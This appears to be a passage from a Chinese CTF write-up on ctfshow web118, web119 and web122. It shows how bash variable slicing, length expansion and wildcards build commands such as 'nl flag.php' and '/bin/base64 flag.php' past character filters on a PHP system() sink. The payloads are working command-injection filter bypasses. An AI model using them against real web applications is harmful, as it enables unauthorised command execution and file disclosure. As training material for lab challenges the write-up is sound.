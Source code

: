另外，在师傅们的WP中看到可以利用PHP语言的环境变量。不过，我在本地ubuntu环境未能成功复现。假如需要用到，可以试一试。

```bash
${PHP_VERSION} # PHP的版本号。由于抓包可以看到版本号，因此是个已知变量。
```

此外，在shell中，可以加上#获取字符串长度。例如：

```bash
${#} # 结果为0
${#RANDOM} # 结果为4或5 
```

可以用`:`来进行切片操作。`~`来进行倒序切片。

```bash
# 假设${BASH}为/usr/bin/bash
${BASH:0:2} # 表示从0开始，取长度为2的字符串，即/u
${BASH:~0:1} # 表示从最后一个字符开始，向右取1个字符。注~0=-1. 结果为h
${BASH:~0:2} # 表示从倒数第二个字符开始，向右取2个字符。 结果为sh
# 又：$((A)) 为0，$((B))为0
# 不难得出$((~A))为-1
# 因此
${BASH:~A:1} # 仍然表示从最后一个字符开始。因为~A=-1.
```

ctfshow web118中，即可利用这一特性构造nl flag.php。

该题只可用大写字母、`${}?:~.`等符号，且命令执行处为`system($code)`形式。

构造payload可以为：

```bash
${PATH:~A}${PWD:~A}${IFS}????.??? # nl flag.php
```

ctfshow web119中，`${PATH}`不可用，师傅们一共有以下trick：

```bash
# 构造/bin/base64 ，即/???/?????4.但实际上，我本地满足此通配符的命令有很多。
# 这里PWD是/var/www/html，取第一位的斜杠。RANDOM为五位数一下，多试几次有四位数。
${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}?????${#RANDOM}${IFS}????.???
# 构造/bin/cat ，这里有师傅说可以/???/?a?，我本地这个通配符也是比较多。记录一下吧。
# 也有师傅构造的/???/?at，t是从$USER的www-data来的，这个USER很难说。
# PHP_VERSION是7.3.22，最后一位是2。 PWD是/var/www/html，第二位是a。
${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}?${PWD:${PHP_VERSION:~A}:${#SHLVL}}?${IFS}????.??? # 这题确实能打出来 只是有一堆乱码罢了。
```

ctfshow web122中，可以用`<、$HOME `，其他的环境变量，包括`#`都不能用。出题人师傅给了个巧妙的解法：

```bash
<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???
# <A，执行失败使得$?值为1.这样构造出来1之后可以得到斜杠/，并通过取RANDOM的第一位，获取任意数。这里构造了/bin/base64
```

